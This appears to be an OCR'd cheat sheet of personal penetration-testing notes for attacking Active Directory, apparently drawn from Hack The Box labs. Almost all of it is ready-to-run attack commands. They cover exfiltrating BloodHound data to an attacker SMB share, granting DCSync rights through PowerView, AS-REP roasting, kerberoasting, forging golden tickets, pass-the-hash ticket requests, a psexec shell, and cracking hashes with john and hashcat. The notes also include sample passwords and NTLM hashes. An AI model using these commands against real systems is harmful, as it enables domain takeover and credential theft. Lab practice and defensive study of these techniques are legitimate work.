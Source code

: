     Active Directory Recon/Suggestions with BloodHound:
      Run SharpHound.exe on victim to get data, then analyze it locally with BloodHound
        File transfer back to Kali with: python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username df -password df  on Kali
          victim:  net use \\10.10.14.18\share /u:df df,  copy 20191018035324_BloodHound.zip \\10.10.14.18\share\,  net use /d \\10.10.14.18\share
      Run BloodHound on kali:  first:  neo4j console    then:  set up password in http://localhost:7474/browser/  then:  ./BloodHound --no-sandbox
        drag zip sharphound file into window
        See groups and path to admin.
        Account Operators lets us create a new account and add to most groups.
        add to a group:  net group "Exchange Windows Permissions" svc-alfresco /add /domain
        Transfer PowerView.ps1 file to get the commands
        One liner ex.:   Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
          member of, write-dacl

    Kerberos Attacks:
        https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
        Get Known User TGTs:  python GetNPUsers.py -dc-ip 192.168.1.105 ignite.local/ -usersfile users -format john -outputfile hashes
            All Users (creds req):  python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
            Crack:  john --wordlist=/usr/share/wordlists/rockyou.txt hashes  \\  hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>
        Get Service Principal Names:  python GetUserSPNs.py -request -dc-ip 192.168.1.105 ignite.local/yashika  \\  python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>  \\  .\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
            Crack:  john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>  \\  hashcat -m 13100 --force <TGSs_file> <passwords_file>
        Create Ticket:  python ticketer.py -nthash f3bc61e97fb14d18c42bcbf6c3a9055f -domain-sid S-1-5-21-3523557010-2506964455-2614950430 -domain ignite.local raj
        Convert kirbi/ccache ticket:  python ticketConverter.py raj.ccache ticket.kirbi
        Request TGT:  python getTGT.py -dc-ip 192.168.1.105 -hashes :64fbae31cc352fc26af97cbdef151e03 ignite.local/yashika
            Get Shell:  export KRB5CCNAME=yashika.ccache; psexec.py -dc-ip 192.168.1.105 -target-ip 192.168.1.105 -no-pass -k ignite.local/yashika@WIN-S0V7KMTVLD2.ignite.local
        Dump AD User info:  python3 GetADUSers.py [-all \\ -all-users] ignite.local/Administrator:Ignite@987 -dc-ip 192.168.1.105

